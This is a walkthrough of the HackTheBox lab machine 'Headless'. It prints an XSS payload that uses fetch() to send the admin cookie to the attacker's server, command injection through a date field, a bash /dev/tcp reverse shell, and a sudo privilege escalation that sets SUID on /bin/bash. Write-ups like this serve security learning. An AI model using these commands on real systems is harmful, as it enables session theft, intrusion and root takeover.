

# <center> HEADLESS </center>

Hello homie! Today I'll be walking you through the easy labeled HackTheBox machine named 'Headless'.

## Recon and scanning

As usual, we are given the ip address `10.10.11.8` when we join the machine. I ran the command `whatweb 10.10.11.8`. But it was strange this time because I didnot get the domain name of the website like I used to get in other machines.

```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ whatweb 10.10.11.8
ERROR Opening: http://10.10.11.8 - Connection refused - connect(2) for "10.10.11.8" port 80
```
From there we can guess that port 80 might be closed. Now its time for real NMAP scanning to check it 😉.

### port and services scanning
```bash
nmap -A -T4 10.10.11.8
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-30 19:36 IST
Warning: 10.10.11.8 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.8
Host is up (0.26s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE    SERVICE    VERSION
22/tcp   open     ssh        OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
497/tcp  filtered retrospect
5000/tcp open     upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Tue, 30 Apr 2024 14:07:04 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
5405/tcp filtered pcduo
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94SVN%I=7%D=4/30%Time=6630FB09%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\
SF:x20Python/3\.11\.2\r\nDate:\x20Tue,\x2030\x20Apr\x202024\x2014:07:04\x2
SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x202799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPDWnvB_Z
SF:fs;\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\
SF:x20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\
SF:x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-wid
SF:th,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Construct
SF:ion</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20b
SF:ody\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\
SF:x20'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20di
SF:splay:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20justif
SF:y-content:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:align-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20height:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\x20
SF:0,\x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOCTYP
SF:E\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x
SF:20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20resp
SF:onse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20vers
SF:ion\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\
SF:x20code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x
SF:20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 152.23 seconds
```

From Nmap, we have ssh port 22 and upnp port 5000 as open ports. And an interesting thing can be noted in GET request from 5000 port that there is a Set-Cookie header with value is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs.

The first part of the cookie `InVzZxIi` decodes to "user" under base64 decoding.
```bash
echo InVzZXIi | base64 -d                   
"user"  
```

### Directories scanning

Since tcp port 5000 is open, let's see what treasures we can acquire from there.

```bash
dirsearch -u http://10.10.11.8:5000

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET
Threads: 25 | Wordlist size: 11460

Output File: /home/cyb3ritic/reports/http_10.10.11.8_5000/_24-04-30_19-06-13.txt

Target: http://10.10.11.8:5000/

[19:06:13] Starting: 
[19:10:40] 401 -  317B  - /dashboard
[19:13:06] 200 -    2KB - /support

Task Completed
```
 
 There we go. Using dirsearch tool we got two web pages on the website one is /support with multiple input fields and another is /dashboard which is unauthorized to us. So, from the information of Nmap, we might need to do some cookie tampering to get ourself authorized(may be as admin).

 So here, all we have is:
 - A landing page with time being displayed on it in format day hour min sec
    - . 

- support page with lots of input field.
    - 

- dashboard page which sets out cookies with user parameter and unauthorizes us.
    - 
    - 


## Vulnerability Assessment

Support page with input fields caught my interest, so, I started testing the input fields manually.
- First tried for SQL injection, I gave single quote(') and double quotes(") as input to every input fields, but there was no any suspicious response.
- Then I tried for XSS. I gave `<XSS>` (word XSS wrapped in angular bracket) as input and I got a suspisious looking message, which means the app is vulnerable to XSS.
    - 

The message said that hacking attemp was detected so a report with my browser information was sent to administrator. 

### Building strategy
Now it's time to build some strategy. Here our browser information is being sent to administrator, and our browser information is stored in User-Agent header. So, if we set/embed our payload in User-Agent header by using burpsuite, our payload is gonna reach the administrator. 

But what will we do after reaching to administrator?

Absolutely right, we are not able to fetch dashboard page because our cookie is set with some "user" parameter value. If we fetch the cookie of administrator and did some cookie tampering in dashbord page, we migh be able to get the dashboard page.

## Exploitation

First I started a http server using command `python -m httpserver`. It started a server on my ip on port 8000. I intercepted the request using burp and edited the User-Agent header with my payload:
```html
<!-- payload -->
<svg onload='fetch("http://my_ip:port/" + document.cookie)>
```
and sent the request. Within 5-6 seconds I recieved message with admin's cookie in my terminal.


Now, using the admin cookie lets try to access the dashboard page and Voilà we got the administrator dashboard.


Here we have option to generate report from the dashboard. Let's generate the report and intercept the request.


Date parameter is sent using post request. So there could be the possibility of OS command injection if inputs are not validated properly.
- first attemp, I concatenated the date parameter with `;ls` but didnot get expected result.
- second try, then  I modified my payload as `;ls;` then I got the output exactly what I wished for 😍.


-----------------
from here You can easily grab the user flag by just exploring the file system and trying some different directories.


But it is not the good way. It'd be better if we get a reverse shell first because gaining a reverse shell is the ideal thing in pentesting. So lets fire up a netcat listener on port 1234 and upload a reverse shell on victim machine.

step 1 => build an executable file with payload to get reverse shell.
```bash
echo "bash -i >& /dev/tcp/10.10.14.116/1234 0>&1;" > reverse_shell.sh
chmod +x reverse_shell.sh
```
step 2 => start the python server with `python -m http.server` and then use `wget http://<ipaddress>port/`to upload reverse shell on victim's machine.


Now since the reverse shell is uploaded, lets run the script using `bash reverse_shell.sh` command. We got the reverse shell. Now again exploring through the file system we can easily acquire the user flag.


## Privilege Escalation

As we see, we have some got some broken shell.
Let's first stabilize the shell using the following command:
```bash
    python3 -c 'import pty;pty.spawn("/bin/bash")’
    export TERM=xterm

    press Ctrl + Z

    stty raw -echo; fg
```

Checking for what commands can be run by out user with sudo previlege using `sudo -l` command:
```bash
dvir@headless:~$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck

```
So, divr can run /usr/bin/syscheck with root previlege. Let's try to exploit this thing.

when we cat out /usr/bin/syscheck, we got that some initdb.sh file is getting executed.
```bash
dvir@headless:~$ cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

I tried searching for that initdb.sh but could not find. Even i used find command to search in root directory (/) but the result was disappointing 😮‍💨.
So, I thought, if there isn't such file, why don't I create it myself and let the system run it with sudo previlege?

```bash
echo "chmod u+s /bin/bash" > initdb.sh"
chmod +x initdb.sh
```

Here the idea is to create a file which when executed will set SUID bit to /bin/bash. Now lets execute the /usr/bin/syscheck with sudo command.

```bash
dvir@headless:~$ sudo /usr/bin/syscheck 
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.03, 0.03
Database service is not running. Starting it...

# checking the permission of /bin/bash
dvir@headless:~$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1265648 Apr 24  2023 /bin/bash
```
SUID bit is set to user now by running `/bin/bash -p` when the binary has the SUID bit set, the -p option allows the default bash shell to run with SUID privileges.

From here we can escalate out previlege to root and tehn grab the root flag.


Hurray! we successfully acquired the root flag 🤩.

Thankyou for reading my writeup cum walkthrough. Hope this was really informative and interesting for you.
 

